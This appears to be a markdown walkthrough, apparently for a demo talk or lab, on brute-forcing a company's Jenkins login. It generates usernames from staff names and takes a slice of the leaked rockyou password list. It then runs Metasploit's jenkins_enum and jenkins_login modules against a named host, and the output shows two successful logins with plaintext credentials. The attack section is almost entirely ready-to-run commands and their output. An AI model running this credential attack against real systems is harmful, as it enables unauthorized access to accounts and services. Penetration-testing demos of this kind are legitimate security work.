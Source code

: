 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Open Questions
- how do I know the port
- how do I know the URL

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk
git clone https://github.com/captain-noob/username-list-generator.git
cd username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```
## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```

## Login Scan Module


#### Get Login URL
use Burpsuite

### Prepare Options
prepare the exploit

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
